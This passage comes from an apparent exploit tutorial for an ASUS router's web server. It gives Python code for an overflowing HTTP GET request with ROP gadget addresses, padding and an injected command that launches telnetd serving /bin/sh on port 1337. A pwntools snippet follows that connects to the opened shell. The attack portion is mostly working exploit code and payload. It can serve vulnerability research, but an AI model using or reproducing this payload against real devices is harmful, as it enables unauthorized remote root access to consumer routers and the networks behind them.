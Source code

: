 This should get a segfault at `0x41414140`.

The next thing to do is to load the pointer to the command via the `pop_r7_gadget`. Add more data when needed to allow the `COMMANDADDR` to be in the right location in the payload and stack and likewise for the `system_gadget` to complete the setup of telnetd on the router.

```python
command = '/usr/sbin/telnetd -l /bin/sh -p 1337;'.replace('\x20', '\t').ljust(127,"#")                                                                                                                             
COMMANDADDR = 0x000a6250 + len("command=")                                                                                                                                                                                                                                                                                                                                                                               
stack_pivot_gadget = 0x0002acd8  # 0x0002acd8: add sp, sp, #0x400; pop {r4, r5, r6, r7, pc};                                                                                                                       
pop_r7_gadget = 0x00010630   #0x00010630: pop {r1, r2, r3, r4, r5, r6, r7, pc};                                                                                                                                    
system_gadget = 0x00025BF4                                                                                                                                                                                         
                                                                                                                                                             
header = "GET /command=" + command +  "A"*(532-len(command)-len("command=")) +p32(stack_pivot_gadget)[:-1] +" HTTP/1.1\r\n"
header += "Host : router.asus.com\r\n"
header += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
header += "Accept: text/html,application/xhtml+xml,"+"A"*302+"application/xml;q=0.9,*/*;q=0.8"+p32(system_gadget)+"\r\n"
header += "Accept-Language: en-US,en;q=0.5\r\n"
header += "Accept-Encoding: gzip, deflate"+"C"*339+p32(COMMANDADDR)+"\r\n"
header += "Cookie: "+p32(system_gadget)+"clickedItem_tab=0\r\n"
header += "Connection: keep-alive\r\n"
header += "Upgrade-Insecure-Requests: 1\r\n"
header += "Cache-Control: max-age=0\r\n"
```

Below shows the successful execution of the payload.

![[Pasted image 20241113015134.png]]

## Getting The Reverse Shell

You can use `pwntools` to connect in the script:

```python
# Connect to telnet
getShell = remote("router.asus.com",1337) 
print getShell.recvuntil("#") 
print getShell.recvrepeat(0.4) 
getShell.sendline("uname -a")
print getShell.recvrepeat(0.5)
getShell.interactive()
```
